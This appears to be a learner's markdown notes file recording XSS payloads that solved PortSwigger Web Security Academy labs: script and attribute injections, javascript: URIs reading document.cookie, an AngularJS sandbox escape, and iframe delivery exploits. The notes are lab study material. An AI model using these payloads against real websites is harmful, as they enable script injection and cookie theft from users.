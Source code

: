 # xss


==========================================

http://example.com/swagerUI/      SERARCH for swagerui xss payload

==========================================


------------------------------- portswigger laps ----------------------------------

# (1)         

```html
 <h1> 'test' </h1>
       test' </h1>   <script> alert() </script>  <!--
```

-----------------------------------------------------------------------------------
             
# (2)          

### in comments 

```html
<img onload=alert()>
```
-----------------------------------------------------------------------------------

# (3)       

 > ### the 'test >' found it but encoded in html so what is the solution:
   * > i found js code that take query form search and put it in src of img so

     > i put payload in this image


```html
 <img src="query">
             <img src="query" onload=alert()>

             <img src="/resources/images/tracker.gif?searchTerms='+query+'">
                                                                    hello'" onload='alert()'> 
```
            
------------------------------------------------------------------------------------

# (4)         
### the test not in sourse code but there is JS dom code make query in url   

```url
/?search=test
/?search=javascript:confirm()      not work 
/?search=<svg onload=alert()>
```
             
------------------------------------------------------------------------------------

# (5)         
### if i try to submit feedback i notice that in URL 

```url
/feedback?returnPath=/
/feedback?returnPath=javascript:alert(document.cookie)
```
     
------------------------------------------------------------------------------------

# (6) 

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
------------------------------------------------------------------------------------
 
# (7)        
### when write test i found it appear in sourse code in two places 

```html
<h1>0 search results for 'test'</h1>
<input type=text placeholder='Search the blog...' name=search value="test">
```
###  i try

```html
test' <img src=x onerror=alert()>        <!-- not work -->
test' <img src=x onclick=alert()>        <!-- not work -->
```
### i notice that the <> are encoded in source code so i can't use them in ``<input>`` so i try:

```html
test"onmouseover="alert(1)"
```
              
------------------------------------------------------------------------------------

# (8)          
### in website input field 

```html
javascript:alert()
```
             
------------------------------------------------------------------------------------

# (9)         
### in soruse code i found 

```html
<script>
     var searchTerms = 'test';
```

```html
                       'test' alert();     -- not work --
                       'test'; alert();//';  -- solved --
```
             
                                          
------------------------------------------------------------------------------------

# (10)         

```url
product?productId=1&storeId="></select><img src=1 onerror=alert(1)>
```

------------------------------------------------------------------------------------

(11)  DOM XSS in AngularJS expression
 
form portswigger sheet cheat i found

         {{constructor.constructor('alert(1)')()}} 


-------------------------------------------------------------------------------------

# (12)  

```js
\"-alert()}//
```

> ``\``   ==> to close Get / in request

> ``"``   ==> to close the value of json
 
> ``}//`` ==> close json 

------------------------------------------------------------------------------------

# (13)   

```html
<> <img src=x onerror=alert()>
```

-----------------------------------------------------------------------------------

# (14)  

```html
<iframe src="https://0aaf0027041a761d816bed2a006f0054.web-security-academy.net
/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

-----------------------------------------------------------------------------------

# (15) 

```
 <script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```



------------------------------------------------------------------------------------

# (16)

 <svg><animatetransform onbegin=alert(1) attributeName=transform>


-------------------------------------------------------------------------------------

